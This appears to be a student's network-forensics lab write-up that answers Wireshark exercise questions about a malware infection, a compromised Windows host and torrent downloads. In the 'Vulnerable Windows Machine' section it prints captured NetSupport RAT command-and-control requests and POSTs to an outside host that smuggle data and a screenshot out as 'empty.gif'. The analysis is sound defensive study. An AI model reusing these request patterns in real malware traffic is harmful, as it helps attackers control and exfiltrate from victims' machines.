# Network Forensic Analysis Report

N.B The exercises were easier by using display filters and exporting the results into smaller pcap files.
```bash
ip.addr == 10.6.12.0/24     10.6.12.0-24.pcapng
ip.addr == 172.16.4.0/24    172.16.4.0-24.pcapng
ip.addr == 10.0.0.0/24      10.0.0.0-24.pcapng
ip.addr == 10.0.0.201       10.0.0.201.pcapng
```
## Time Thieves 
You must inspect your traffic capture to answer the following questions:

1. What is the domain name of the users' custom site?        `frank-n-ted.com`

2. What is the IP address of the Domain Controller (DC) of the AD network?   `Frank-n-Ted-DC.frank-n-ted.com  10.6.12.12`

3. What is the name of the malware downloaded to the 10.6.12.203 machine?
   - Once you have found the file, export it to your Kali machine's desktop.
- `ip.addr == 10.6.12.203` File -> Export Objects -> HTTP 
- malicious document `invoice-86495.doc` pulled down `june11.dll`

4. Upload the file to [VirusTotal.com](https://www.virustotal.com/gui/). 
5. What kind of malware is this classified as?

```bash
Trojan horse of some kind (potentially banking based on detection results).
Several of the AV vendors classify it as ransomware.
```



---

## Vulnerable Windows Machine

1. Find the following information about the infected Windows machine:
    - Host name     `Rotterdam-PC.mind-hammer.net`
    - IP address    `172.16.4.205`
    - MAC address   `00:59:07:b0:63:a4`



2. What is the username of the Windows user whose computer is infected?     `matthijs.devries`



3. What are the IP addresses used in the actual infection traffic?
There is some kind of C&C traffic going on with `31.7.62.214`.

```bash
POST http://31.7.62.214/fakeurl.htm HTTP/1.1
User-Agent: NetSupport Manager/1.3
Content-Type: application/x-www-form-urlencoded
Content-Length:    22
Host: 31.7.62.214
Connection: Keep-Alive

CMD=POLL
INFO=1
ACK=1
HTTP/1.1 200 OK
Server: NetSupport Gateway/1.6 (Windows NT)
Content-Type: application/x-www-form-urlencoded
Content-Length:    60
Connection: Keep-Alive

CMD=ENCD
ES=1
DATA=.g+$.{.. \....W...bb...).w}..o..X..xf...
POST http://31.7.62.214/fakeurl.htm HTTP/1.1
User-Agent: NetSupport Manager/1.3
Content-Type: application/x-www-form-urlencoded
Content-Length:   240
Host: 31.7.62.214
Connection: Keep-Alive

CMD=ENCD
ES=1
DATA=u.2h.r..4.]..%y-.....=I...D3.W..i.7?....=@....F.f....&t.[..6ra..L....C.Lr...vJ.OE@k.}.[.jo\.s.+Y.......]8.......o...MQ..Y......z.8.]a5.(...... ./..7. .\.(..."y.o..h..l.....Hb...@C.=@........6.p...g..r...f.V=@.`t..i......

....
```
Numerous files named some variation of empty.gif are being sent to `Dst: b5689023.green.mattingsolutions.co (185.243.115.84)`. The HTTP stream contains a lots of text instead of binary data that would comprise an image file. Further on in the stream, a PNG image is being sent

```bash
POST /empty.gif HTTP/1.1
Accept: */*
Accept-Language: en-US
Age: 911068f789126eb9
Content-Type: application/x-www-form-urlencoded
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: b5689023.green.mattingsolutions.co
Content-Length: 72
Connection: Keep-Alive
Cache-Control: no-cache

a=4f54646966376d606360653572656961646172666965616267616266676c6c67606672HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Fri, 19 Jul 2019 18:53:12 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/7.2.19
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET,POST,OPTIONS,DELETE,PUT

f09
b1001c3a578453a43c22f1cf4f3d0280b3a3d2aa3ed38096c42bea4787be5ab053d758dfcb3a72167634b8a46d9d1aee46eb3914ab3021247509e3cd3eea598db3a5f5f9a0f113079c20a5d4848078e1b1956b606642b736ffb94a2ae226ca5f5698a0211d71f4d6d3e08217a8f6f7b60b9922ebd814d13eb265f8ec0101731a52f6c500f827b915884b7ddb440f77167b8abd4aac2ce1dfeb9494c5ca6566ee00c6bbeaf41d8fc5a756474179c1578d992945ea27c15256c2f2681a39f6d2d1f2c951bdf4f3aa5fde7aa09961d626b93baba2551c361706d0c115c26
[.............]
POST /empty.gif?ss&ss1img HTTP/1.1
Accept: */*
Accept-Language: en-US
Age: 911068f789126eb9
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: b5689023.green.mattingsolutions.co
Content-Length: 3592206
Connection: Keep-Alive
Cache-Control: no-cache

.PNG
.
...
IHDR.......8........C....sRGB.........gAMA......a....	pHYs..........o.d....IDATx^t...'...
..y..$.a..a..f.....!	..''..m...+1..Ap.'...r..>k.......}Uw....oU.....Y.<......Y.Y.<...T....S.......y.9.=g..\..+..........u.^.B[p%...@=._.....UWe.[x.K=_yW......{........i.-....*w.N...m[|..........k^jK..m[x....._p..t....
y.....,.Z..c...7-S=...^..x)].......?&.u....e..Q...[....}[~..M.T.X..^..Ko|.m..l.
[........]
```


4. As a bonus, retrieve the desktop background of the Windows host.

---

## Illegal Downloads

1. Find the following information about the machine with IP address `10.0.0.201`:
  
    - MAC address           `00:16:17:18:66:c8`
    - Windows username      `elmer.blanco` 
    - OS version            `Windows 10`  



The CNameString value without the `$` in kerberos traffic for the IP.


Decoding the user agent from an http request


2. Which torrent file did the user download?  `Betty_Boop_Rhythm_on_the_Reservation.avi.torrent`

